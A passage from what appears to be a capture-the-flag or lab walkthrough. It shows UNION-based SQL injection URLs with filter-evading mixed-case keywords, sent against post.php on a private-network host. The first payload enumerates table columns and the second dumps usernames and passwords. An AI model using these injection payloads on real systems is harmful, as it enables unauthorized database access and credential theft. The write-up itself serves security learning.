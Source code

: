 Nice! Now that we got our table names, let's pull all the columns from the "__site__" table.

```
http://192.168.101.9:443/post.php?id=%27%29+UniOn+SeLecT+1,GroUp_ConCaT%28TAblE_NaME,0x20,CoLumN_NaME%29+FrOm+iNfOrmaTioN_scHeMa.ColUmNs+WHerE+tAblE_SchEma=%27site%27%23
```

<a href="/images/gds2-5.png"><img src="/images/gds2-5.png"></a>

We see that the Site table has a username and password column, so let's go ahead and dump any data in those columns.

```
http://192.168.101.9:443/post.php?id=%27%29+UniOn+SeLecT+1,GroUp_ConCaT%28useRnAMe,0x20,paSswOrD%29+FrOm+site.users%23
```

<a href="/images/gds2-6.png"><img src="/images/gds2-6.png"></a>
